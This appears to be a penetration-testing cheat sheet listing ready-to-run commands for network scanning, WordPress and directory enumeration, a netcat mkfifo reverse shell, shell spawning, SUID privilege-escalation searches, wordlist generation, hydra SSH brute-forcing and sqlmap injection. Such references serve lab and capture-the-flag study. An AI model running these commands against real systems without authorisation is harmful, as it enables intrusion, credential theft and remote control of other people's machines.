# Cheat Sheet

## arp-scan
```
sudo arp-scan --interface=ens33 --localnet
```

## wpscan
```
wpscan --api-token ####### --url http://website.com/directory -e --plugins-detection aggressive --ignore-main-redirect --force
```

## nmap
```
nmap -p- x.x.x.x --open
nmap -p21,80,443 x.x.x.x
nmap (-sV / -A) -p21,80,443 x.x.x.x
```

##  gobuster
```
gobuster dir --url http://whatever.com --wordlist /usr/share/wordlists/dirb/common.txt
```

## netcat
```
nc -nlvp 8888 (host listener)
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc (host port) >/tmp/f
```

## python
```
python -m http.server (setup a local webserver)
python -c 'import pty;pty.spawn("/bin/bash")' (spawn shell)
python -c 'import os; os.execl("/bin/sh", "sh", "-p")' (spawn shell)
```

## privesc
```
sudo -l
find / -type f -user root -perm -4000 2>/dev/null (find suid files)
```

## crunch
```
# example:
# “bev" + “1 upper char” + “2 num" + “2 lower char” + “1 symbol” + “1995”

# crunch pattern (-t) flags
• , = upper char
• % = number
• @ = lower char
• ^ = symbol

crunch 13 13 -t bev,%%@@^1995 -o wordlist.txt
```

## hydra
```
hydra ssh://<ip>:<port> -l username -P /opt/rockyou.txt
```

## sqlmap
```
sqlmap -u http://website:port/directory --answers="follow=Y" --batch
```

